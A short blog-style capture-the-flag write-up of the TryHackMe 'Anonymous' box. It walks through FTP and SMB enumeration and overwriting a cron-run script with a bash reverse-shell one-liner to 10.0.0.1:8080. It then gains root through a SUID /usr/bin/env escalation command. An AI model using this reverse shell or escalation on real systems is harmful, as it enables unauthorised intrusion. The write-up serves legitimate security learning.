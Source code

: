 ```yaml
---
layout: post
title:  "THM - Anonymous"
date:   2020-07-14 18:00:00 +1000
category: hacking
---
```


## Introduction
*Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.*  

This is a medium rated box, although the description suggests it is for beginners. 

## Ports
nmap says we've got 21 (FTP), 22 (SSH), plus 139 and 445 (SMB).

## FTP
FTP allows anonymous login and there are three files: a todo list, a shell script for cleaning up tmp files and a log of cleaned files. None of these are super interesting at first blush, but the script may come into play later on....

## SMB
We can enumerate the shares with smbclient and then login to the *pics* share, from where we can retrieve two pictures of dogs and nothing else. This suggests a stego challenge. Have I mentioned that I hate stego? Nevertheless I did spend some time throwing some stego tools at the images but drew a blank. Back to FTP?

## FTP Redux
We actually have write access to the FTP share and if we pay attention we can deduce that the script for cleaning up the tmp files is running on a frequent schedule, presumably via a cron job. So we can *replace* the script contents to get ourselves a reverse shell; the [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) bash shell does the job:

``
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
``

## On the box
Now we're on the box we can get the user flag and run linpeas.sh from /dev/shm. This provides a few suggestions, one of which is the SUID bit on /usr/bin/env. 

[GTFOBins](https://gtfobins.github.io/gtfobins/env/) gives a command:

``
./env /bin/sh -p
``

We edit the path a little and boom! We are root:
>/usr/bin/env /bin/sh -p  
#whoami  
root  

So yeah I guess it was pretty easy :)
